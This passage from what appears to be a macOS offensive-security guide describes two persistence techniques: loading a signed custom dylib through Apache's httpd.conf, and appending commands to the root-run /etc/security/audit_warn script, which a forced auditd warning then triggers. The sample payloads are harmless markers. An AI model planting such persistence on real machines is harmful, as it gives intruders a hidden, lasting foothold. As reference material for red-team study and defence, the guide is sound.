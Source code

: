 #### Description & Exploit

You can indicate in /etc/apache2/httpd.conf to load a module adding a line such as:

{% code overflow="wrap" %}
```bash
LoadModule my_custom_module /Users/Shared/example.dylib "My Signature Authority"
```
{% endcode %}

This way your compiled moduled will be loaded by Apache. The only thing is that either you need to **sign it with a valid Apple certificate**, or you need to **add a new trusted certificate** in the system and **sign it** with it.

Then, if needed , to make sure the server will be started you could execute:

```bash
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
```

Code example for the Dylb:

```objectivec
#include <stdio.h>
#include <syslog.h>

__attribute__((constructor))
static void myconstructor(int argc, const char **argv)
{
     printf("[+] dylib constructor called from %s\n", argv[0]);
     syslog(LOG_ERR, "[+] dylib constructor called from %s\n", argv[0]);
}
```

### BSM audit framework

Writeup: [https://theevilbit.github.io/beyond/beyond\_0031/](https://theevilbit.github.io/beyond/beyond\_0031/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root, auditd be running and cause a warning

#### Location

* **`/etc/security/audit_warn`**
  * Root required
  * **Trigger**: When auditd detects a warning

#### Description & Exploit

Whenever auditd detects a warning the script **`/etc/security/audit_warn`** is **executed**. So you could add your payload on it.

```bash
echo "touch /tmp/auditd_warn" >> /etc/security/audit_warn
```

You could force a warning with `sudo audit -n`.
